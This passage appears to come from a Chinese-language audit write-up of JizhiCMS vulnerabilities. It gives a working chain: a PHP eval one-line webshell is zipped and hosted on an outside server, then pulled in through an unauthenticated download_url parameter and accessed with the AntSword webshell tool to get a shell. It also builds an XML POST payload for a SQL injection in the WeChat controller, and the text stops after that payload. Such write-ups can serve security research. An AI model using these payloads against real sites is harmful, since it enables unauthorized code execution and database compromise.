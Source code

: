 我们在其他网站上创建一个a.php，并写入一句话木马：

```php
<?php
	@eval($_POST["mima"]);
?>
```

将a.php打包为a.zip：

```
zip a.zip a.php
```

然后只需要将download_url的值修改为自己网站上压缩可执行脚本的下载路径，action参数不可以修改，构造成如下payload：

```
action=start-download&filepath=mutisite&download_url=http://192.168.3.119/a.zip
```

在postman上对URL发送请求：

> 注意：
>
> 将Headers的`Content-Type`参数的值修改为： `application/x-www-form-urlencoded;charset=UTF-8`

可以看到，即使后台没有登录的情况下，也可以成功访问这个URL。我们到网站的 `A/exts` 目录下查看：

可以看到 `a.php` 被成功的解压出来，那么，我们使用蚁剑webshell链接工具访问http://`www.wasjpentest008.com`/A/exts/a.php，就可以getshell。

#### 2）SQL注入漏洞

查看ID是125这个漏洞，漏洞描述为：“读取文件函数中存在变量，可能存在任意文件读取漏洞”。

我们找到这个漏洞存在的方法位置：`jizhicms/Home/c/WechatController.php`

这个漏洞虽然提示的是任意文件读取漏洞，但是经过测试URL，发现存在SQL注入漏洞，下面我们对`responseMsg`方法进行分析。

这个方法的逻辑是，通过POST请求传入xml数据，为什么是xml数据？因为199行使用了将字符串转换为xml对象的 simplexml_load_string 函数，得到xml对象后，赋值给` $postObj `变量。但是我们不知道在xml对象里都包含哪些标签，我们要对方法体内部所有使用$postObj对象的key进行收集和分析，以确保代码运行到227行：

```
$islive = M('member')->find(array('openid'=>$openid));
```

这一行代码就存在SQL注入点，随意传入一个字符串，就可以触发漏洞。下面我们收集POST请求的xml

参数所需要的key。

- 201行`$postObj->FromUserName;`
- 202行`$postObj->ToUserName;`
- 213行`$postObj->MsgType;`
- 214行`$postObj->Event;`

到227行之前，所有的key都收集完成，只要从开始到227行代码执行了，那么SQL语句就注入成功。

下面构造POST请求参数：

```xml
<?xml version='1.0' ?>
<ducument>
<MsgType>
event
</MsgType>
<Event>
subscribe
</Event>
<FromUserName>
kevin'
</FromUserName>
</ducument>
```
